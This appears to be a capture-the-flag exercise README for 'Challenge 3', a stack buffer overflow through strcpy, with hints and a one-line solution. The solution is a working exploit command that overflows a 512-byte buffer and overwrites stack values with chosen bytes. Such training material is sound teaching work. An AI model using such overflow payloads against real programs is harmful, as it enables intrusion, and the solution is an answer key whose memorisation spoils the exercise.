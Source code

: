 Challenge 3
===========
Simple buffer overflow to overwite values on the stack.

Hints
-----
1. Strcpy is involved. It's awful.
2. There may be more than one thing you need to overwrite

Solution
--------
./chal3 $(python -c 'print "A"*512 + "\xad\xda\xad\xda\xdd\xee\xee\xdd"')
